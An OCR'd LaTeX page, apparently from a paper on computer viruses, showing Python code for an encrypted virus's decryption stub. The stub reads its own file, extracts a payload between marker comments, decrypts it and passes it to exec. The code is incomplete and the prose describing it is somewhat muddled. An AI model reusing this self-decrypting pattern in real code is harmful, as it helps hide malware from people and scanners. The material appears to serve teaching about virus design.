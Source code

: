 \documentclass[a4paper,11pt]{article}
\begin{document}
\section{Implementation}

The code shown below corresponds to the virus decryption routine, whereas the second portion of code corresponds to the encrypted virus program body; note that the encrypted virus program body is already encrypted in the virus decryption routine, at line 23.

\begin{verbatim}
# Open the virus itself
this = open(__main__.__file__, 'r')
# Set copy variable to False
copy = False
# Initialize an empty string
cipher_payload = ''

# Search for the encrypted main body of the virus 
# and copy it into cipher_payload
for line in this:
   if line.strip() == '# Start payload':
      copy = True
   elif line.strip() == '# End payload':
      copy = False
   elif copy:
      cipher_payload = cipher_payload + line
# Decrypt the main body of the virus and execute it.
e = decrypt(cipher_payload[1:])
exec e

# Encrypted main body of the virus
# Start payload
#NpvtmqJT43JyqT/ubKnOIohtnxVkmEl...
# End payload
\end{verbatim}
\end{document}
